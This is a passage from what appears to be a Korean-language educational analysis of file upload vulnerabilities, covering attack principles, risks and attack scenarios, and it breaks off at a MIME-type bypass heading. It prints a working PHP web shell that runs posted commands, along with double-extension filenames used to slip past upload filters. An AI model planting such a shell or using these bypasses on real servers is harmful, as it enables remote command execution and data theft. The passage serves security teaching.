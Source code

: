 # File Upload 취약점 분석

## 📋 취약점 개요

**File Upload 취약점**은 웹 애플리케이션이 사용자로부터 파일 업로드를 받을 때 적절한 검증 없이 처리하여 발생하는 보안 취약점입니다. 공격자가 악성 파일을 업로드하여 서버에서 코드를 실행하거나 시스템을 손상시킬 수 있습니다.

### 🎯 공격 원리

1. **파일 타입 검증 우회**: 확장자나 MIME 타입 조작
2. **악성 코드 업로드**: 웹 셸이나 실행 가능한 스크립트 업로드
3. **경로 조작**: 의도하지 않은 위치에 파일 저장
4. **서버 측 실행**: 업로드된 악성 파일 실행

### 🔍 주요 위험성

- **CVSS 점수**: 9.1 (Critical)
- **원격 코드 실행**: 서버에서 임의 명령 실행
- **데이터 유출**: 민감한 정보 접근 및 탈취
- **시스템 손상**: 서버 리소스 및 파일 시스템 조작

## 🚨 공격 시나리오

### 시나리오 1: 웹 셸 업로드

```php
<?php
// 악성 PHP 웹셸 (shell.php)
if(isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    echo "<pre>";
    system($cmd);
    echo "</pre>";
}
?>
<form method="post">
    <input type="text" name="cmd" placeholder="명령어 입력">
    <input type="submit" value="실행">
</form>
```

### 시나리오 2: 이중 확장자 우회

```bash
# 파일명 조작을 통한 우회
malicious.php.jpg  # PHP로 실행될 수 있음
script.asp.png     # ASP로 실행될 수 있음
backdoor.jsp.gif   # JSP로 실행될 수 있음
```

### 시나리오 3: MIME 타입 우회
